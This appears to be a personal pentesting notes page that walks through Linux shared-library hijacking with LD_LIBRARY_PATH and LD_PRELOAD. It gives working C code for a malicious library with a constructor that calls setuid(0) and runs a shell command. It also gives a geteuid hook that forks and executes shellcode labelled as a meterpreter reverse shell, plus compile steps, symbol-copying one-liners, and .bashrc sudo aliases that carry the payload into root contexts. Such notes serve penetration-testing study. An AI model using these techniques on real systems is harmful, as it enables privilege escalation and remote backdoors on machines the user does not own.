 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Linux_Shared_Libraries
---
```



<span style="font-size: 35px; color:red"><b>Shared Libraries - LD_LIBRARY_PATH</b></span>
&nbsp;

Like DLLs on windows, but on linux.
This shared libs are in the following folders (ordered by importance):
- RPATH
- LD_LIBRARY_PATH
- RUNPATH
- <span style="color:red">/etc/ld.so.conf
- <span style="color:red">/lib</span>, <span style="color:red">/lib64</span>, <span style="color:red">/usr/lib</span>, <span style="color:red">/usr/lib64</span>, <span style="color:red">/usr/local/lib</span>, <span style="color:red">/usr/local/lib64</span>, and potentially others.

&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>LD_LIBRARY_PATH</b></span>

Code to insert in .bashrc or .bash_profile to define the LD_LIBRARY_PATH

I.E. the target system is running <span style="color:red">top</span> each 3 minutes. <span style="color:red">top</span> uses shared libraries. We can trick the system into loading a fake shared library containing an exploit developed by us.

0) <span style="color:red">On most modern systems, user environment variables are not passed on when using sudo. This setting is configured in the /etc/sudoers file by using the _env_reset_ keyword as a default. Some systems are configured to allow a user's environment to be passed on to sudo. These will have _env_keep_ set instead.</span> To solve this, set an alias in .bashrc  alias sudo="sudo LD_LIBRARY_PATH=/home/offsec/ldlib" and remember to use source. Also try alias sudo = 'sudo -E' if not working.

1) Exploit to build to create shared library with payload:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

static void runmahpayload() __attribute__((constructor));

int gpgrt_onclose;
int _gpgrt_putc_overflow; //change these lines with the ones found in point 5
int gpgrt_feof_unlocked;

void runmahpayload() {
	setuid(0);
	setgid(0);
    printf("DLL HIJACKING IN PROGRESS \n");     //actual exploit
    system("touch /tmp/haxso.txt");
}
```

2) To compile:
```shell
gcc -Wall -fPIC -c -o hax.o hax.c
gcc -shared -o libhax.so hax.o
```
This will produce <span style="color:red">libhax.so</span>

3) To check the libraries loaded by <span style="color:red">top</span>:
```shell
ldd /usr/bin/top
```
Check what libraries you see and chose one that might not prevent normal use of the application.

4) Set the environment variable and set the name of the exploit library to the one we want to hijack:
```shell
export LD_LIBRARY_PATH=/home/offsec/ldlib/
cp libhax.so libgpg-error.so.0 (in folder specified above!)
```

5) Find missing symbols (replace <span style="color:red">libgpg-error.so.0</span> with the library you are replacing):
```shell
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```
and copy output to the exploit shown in point 1.

6) It might be that we still miss some symbols (based on the output error from running <span style="color:red">top</spen>), you can find them like so:
```shell
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print $8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```
You can wrap the symbols into a symbol map file (<span style="color:red">gpg.map</span>) like this:
```
GPG_ERROR_1.0 {
gpgrt_onclose;
_gpgrt_putc_overflow;
...
gpgrt_fflush;
gpgrt_poll;
			//remember to add white line here
};
```

And compile everything again like so:
```shell
gcc -Wall -fPIC -c -o hax.o hax.c
gcc -shared -Wl,--version-script gpg.map -o libgpg-error.so.0 hax.o
```

7) If not specifying the new Library path on the .bashrc/.bash_profile files, remember to export the library path: <span style="color:red">export LD_LIBRARY_PATH=/home/offsec/ldlib/</span> and run the command. To run it with <span style="color:red">sudo</span>, check point 0.

&nbsp;

---
&nbsp;

<span style="font-size: 25px; color:white"><b>Shared Libraries - LD_PRELOAD</b></span>

I.E Let's attack <span style="color:red">cp</span>.

1) <span style="color:red">ltrace cp</span> to see the various functions used by cp and find one that is used only once and possibly without input parameters. We'll redefine that function.
2) If the function that we found is - for instance - <span style="color:red">geteuid()</span>, the .c exploit is the following:
```c
#define _GNU_SOURCE
#include <sys/mman.h> // for mprotect
#include <stdlib.h>
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>

char buf[] = "\x48\x31\xff\x6...  //c meterpreter revshell

uid_t geteuid(void)
{
	typeof(geteuid) *old_geteuid;
	old_geteuid = dlsym(RTLD_NEXT, "geteuid");
	if (fork() == 0)
	        {
	                intptr_t pagesize = sysconf(_SC_PAGESIZE);
	                if (mprotect((void *)(((intptr_t)buf) & ~(pagesize - 1)),
	                 pagesize, PROT_READ|PROT_EXEC)) {
	                        perror("mprotect");
	                        return -1;
	                }
	                int (*ret)() = (int(*)())buf;
	                ret();
	        }
	        else
	        {
	                printf("HACK: returning from function...\n");
	                return (*old_geteuid)();
	        }
	        printf("HACK: Returning from main...\n");
	        return -2;
}
```

3) Compile it like:
```shell
gcc -Wall -fPIC -z execstack -c -o evil_geteuid.o evileuid.c
gcc -shared -o evil_geteuid.so evil_geteuid.o -ldl
```

4) After opening a meterpreter shell, test the executable like so (before and after loading library, as shown below):
```shell
cp /etc/passwd /tmp/testpasswd
export LD_PRELOAD=/home/offsec/evil_geteuid.so
cp /etc/passwd /tmp/testpasswd
```

5) To run as root:
```shell
unset LD_PRELOAD
```
Also add to .bashrc:
```shell
alias sudo="sudo LD_PRELOAD=/home/offsec/evil_geteuid.so"
```
and run the command with sudo.
